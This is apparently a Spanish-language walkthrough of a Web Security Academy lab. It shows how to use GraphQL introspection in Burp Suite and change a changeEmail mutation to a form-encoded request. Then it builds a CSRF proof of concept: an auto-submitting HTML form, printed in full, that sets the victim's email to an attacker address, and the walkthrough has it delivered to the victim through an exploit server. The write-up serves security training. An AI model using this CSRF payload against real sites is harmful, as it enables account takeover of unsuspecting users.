








## LAB



Al interceptar las solicitudes veremos en estas un endpoint `graphQL/v1` en el que podemos hacer consultas de inspección. Al hacer click derecho y luego seleccionar `set instrospection query`



Luego vemos que podemos ver una query y al enviar la solicitud, se tiene toda el listado de contenido. Ahora para poder separar por consultas y querys, al seleccionar la opción de `Save GraphQL queries to site map`



En la query vemos que tenemos una solicitud para cambiar el correo



En esta solicitud vemos que podemos cambiar a `x-www-form-urlencoded` y editar la parte del cuerpo y enviar.

```c

query=%0A++++mutation+changeEmail%28%24input%3A+ChangeEmailInput%21%29+%7B%0A++++++++changeEmail%28input%3A+%24input%29+%7B%0A++++++++++++email%0A++++++++%7D%0A++++%7D%0A&operationName=changeEmail&variables=%7B%22input%22%3A%7B%22email%22%3A%22hacker1%40hacker.com%22%7D%7D
```



Para generar el código del csrf podemos usar burpsuite, haciendo click derecho y luego seleccionar como se ve en la siguiente figura:




```c
<html>

  <!-- CSRF PoC - generated by Burp Suite Professional -->

  <body>

    <form action="https://0aca00fb04b73746800244ca00260081.web-security-academy.net/graphql/v1" method="POST">

      <input type="hidden" name="query" value="&#10;&#32;&#32;&#32;&#32;mutation&#32;changeEmail&#40;&#36;input&#58;&#32;ChangeEmailInput&#33;&#41;&#32;&#123;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;changeEmail&#40;input&#58;&#32;&#36;input&#41;&#32;&#123;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;email&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#125;&#10;&#32;&#32;&#32;&#32;&#125;&#10;" />

      <input type="hidden" name="operationName" value="changeEmail" />

      <input type="hidden" name="variables" value="&#123;&quot;input&quot;&#58;&#123;&quot;email&quot;&#58;&quot;hacker1&#64;hacker&#46;com&quot;&#125;&#125;" />

      <input type="submit" value="Submit request" />

    </form>

    <script>

      history.pushState('', '', '/');

      document.forms[0].submit();

    </script>

  </body>

</html>


```

Ahora podemos agregar al exploit server para luego enviárselo a al victima.




